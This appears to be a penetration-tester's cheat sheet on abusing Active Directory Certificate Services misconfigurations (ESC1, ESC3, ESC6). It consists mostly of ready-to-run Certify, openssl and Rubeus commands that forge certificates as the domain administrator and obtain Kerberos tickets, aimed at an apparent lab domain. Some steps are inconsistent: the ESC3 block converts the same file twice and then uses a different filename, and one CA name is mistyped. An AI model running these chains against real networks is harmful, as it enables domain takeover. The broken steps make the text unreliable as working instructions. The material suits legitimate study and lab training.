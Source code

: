 # AD CS

[Active Directory Certificate Services](https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/active-directory-certificate-services-overview) (AD CS) is a Windows Server role for issuing and managing public key infrastructure (PKI) certificates used in secure communication and authentication protocols.



## Tools

Certify and Certipy tools to enumerate and abuse misconfigurations in AD CS:

{% embed url="https://github.com/GhostPack/Certify" %}
Certify
{% endembed %}

{% embed url="https://github.com/ly4k/Certipy" %}
Certipy&#x20;
{% endembed %}

## Enumerate

```powershell
# all registered CAs
Certify.exe cas
# enumerate templates
Certify.exe find
# enumerate vulnerable templates
Certify.exe find /vulnerable
```

## Abuse

### ESC1

ESC1 is when a certificate template permits Client Authentication and allows the enrollee to supply an arbitrary Subject Alternative Name (SAN).

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"># Find vul template
Certify.exe find /enrolleeSuppliesSubject

# Request cert
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator

<strong># Convert it to pfx and set password
</strong>openssl pkcs12 -in esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc1.pfx

# Request TGT using the cert
Rubeus.exe asktgt /user:administrator /certificate:esc1.pfx /password:123456 /ptt
</code></pre>

### ESC3

ESC3 is when a certificate template specifies the Certificate Request Agent EKU (Enrollment Agent). This EKU can be used to request certificates on behalf of other users.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"># Find vul template
<strong>Certify.exe find /vulnerable
</strong>
# Request a certificate based on vulnerable template
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:vulnerable-template

# Convert it to pfx and set password
openssl pkcs12 -in esc3agent.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc3agent.pfx

# Request a certificate on behalf of DA
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:vulnerable-template /onbehalfof:dcorp\administrator /enrollcert:esc3.pfx /enrollcertpw:123456

# Convert it again to pfx and set password
openssl pkcs12 -in esc3agent.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc3agent.pfx

# Get TGT using the pfx certificate
Rubeus.exe asktgt /user:administrator /certificate:esc3.pfx /password:123456 /ptt

</code></pre>

### ESC6

ESC6 is when the CA specifies the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag. \
This flag allows the enrollee to specify an arbitrary  Subject Alternative Name (SAN) on all certificates despite a certificate template's configuration.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"># Find vul template
Certify.exe find 

# Request cert
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DCCA /template:&#x3C;vul_template> /altname:administrator

<strong># Convert it to pfx and set password
</strong>openssl pkcs12 -in esc6.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc6.pfx

# Request TGT using the cert
Rubeus.exe asktgt /user:administrator /certificate:esc6.pfx /password:123456 /ptt
</code></pre>

